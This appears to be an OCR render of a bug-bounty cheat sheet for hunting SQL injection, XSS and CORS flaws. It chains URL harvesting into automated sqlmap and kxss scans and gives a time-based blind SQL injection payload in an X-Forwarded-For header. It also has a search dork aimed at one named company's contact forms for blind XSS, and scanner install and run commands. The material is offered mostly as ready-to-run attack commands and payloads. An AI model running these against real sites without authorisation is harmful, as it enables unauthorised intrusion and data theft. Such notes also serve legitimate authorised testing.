 __________________________________________________________________________________________________


## Extra 
## Testing for xss and sqli at the same time >_< 
(Please Install Katana into your machine to access the full potential of this tool)
1. Clone the repository: ``` git clone https://github.com/faiyazahmad07/xss_vibes```
2. Install the requirements file: ```pip3 install -r requirements```
3. Run the main.py file
__________________________________________________________________________________________________

     cat subdomains.txt | waybackurls | uro | grep "\?" | httpx -silent > param.txt
-

     sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt
-

     cat param.txt | kxss   

__________________________________________________________________________________________________


## Blind SQL Injection :-

Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z


## Blind XSS :-

     site:opsgenie.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form"

## Go to xss.report website and create an account to test for blind xss Vulnerbilitites 
__________________________________________________________________________________________________


## Hunting For Cors Misconfigration :-


     https://github.com/chenjj/CORScanner
-

     pip install corscanner
-

     corscanner -i live_subdomains.txt -v -t 100

________________________________________________________________________________________________

https://github.com/Tanmay-N/CORS-Scanner

     go install github.com/Tanmay-N/CORS-Scanner@latest
-
